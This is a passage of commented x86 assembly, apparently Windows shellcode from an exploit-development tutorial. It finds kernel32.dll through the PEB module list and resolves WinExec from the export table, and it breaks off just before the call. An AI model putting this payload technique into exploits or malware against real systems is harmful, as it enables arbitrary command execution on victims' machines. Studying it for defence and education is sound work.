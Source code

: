 ```asm
    mov [ebp - 4], esp      ; var4 = "WinExec\x00"

    ; find kernel32.dll
    mov ebx, [fs:0x30]
    mov ebx, [ebx + 0x0c]   ; &PEB_LDR_DATA
    mov ebx, [ebx + 0x14]   ; &InMemoryModuleList
    mov ebx, [ebx]          ; InMemoryOrderModuleList->next(ntdll.dll)
    mov ebx, [ebx]          ; InMemoryOrderModuleList->next->next(kernel32.dll)
    mov ebx, [ebx + 0x10]   ; InMemoryOrderModuleList->next->next->base
    mov [ebp - 8], ebx      ; var8 = kernel32.dll base address

    ; find WinExec Address
    mov eax, [ebx + 0x3c]   ; RVA of PE signature
    add eax, ebx            ; Address of PE signature
    mov eax, [eax + 0x78]   ; RVA of Export Table
    add eax, ebx            ; Address of Export Table

    mov ecx, [eax + 0x24]   ; RVA of Ordinal Table
    add ecx, ebx            ; address of Ordinal Table
    mov [ebp - 0x0c], ecx   ; var12 = address of Ordinal Table

    mov edi, [eax + 0x20]   ; RVA of Name Pointer Table
    add edi, ebx            ; address of Name Pointer Table
    mov [ebp - 0x10], edi   ; var16 = address of Name Pointer Table

    mov edx, [eax + 0x1c]   ; RVA of Address Table
    add edx, ebx            ; Address of Address Table
    mov [ebp - 0x14], edx   ; var20 = address of Address Table

    mov edx, [eax + 0x14]   ; Number of exported functions

    xor eax, eax            ; counter = 0
.loop:
    mov edi, [ebp - 0x10]   ; edi = var16 = address of Name Pointer Table
    mov esi, [ebp - 4]      ; esi = var4 = "WinExec\x00"
    xor ecx, ecx

    cld                     ; set DF = 0 process string left to right
    mov edi, [edi + eax * 4]; Entry of Name Pointer Table is 4 bytes long

    add edi, ebx            ; address of string
    add cx, 8               ; length to compare
    repe cmpsb              ; compare first 8 bytes in
                            ; esi and edi. ZF=1 if equal, ZF=0 if not
    jz start.found

    inc eax                 ; counter++
    cmp eax, edx            ; check if last function is reached
    jb start.loop

    add esp, 0x26
    jmp start.end           ; not found, jmp to end
.found:
    ;  eax holds the position
    mov ecx, [ebp - 0x0c]   ; ecx = var12 = address of Ordinal Table
    mov edx, [ebp - 0x14]   ; edx = var20 = address of Address Table

    mov ax, [ecx + eax * 2] ; ax = ordinal number
    mov eax, [edx + eax * 4]; eax = RVA of function
    add eax, ebx            ; eax = address of fuction
    ; call function
    xor edx, edx
    push edx		        ; null termination
```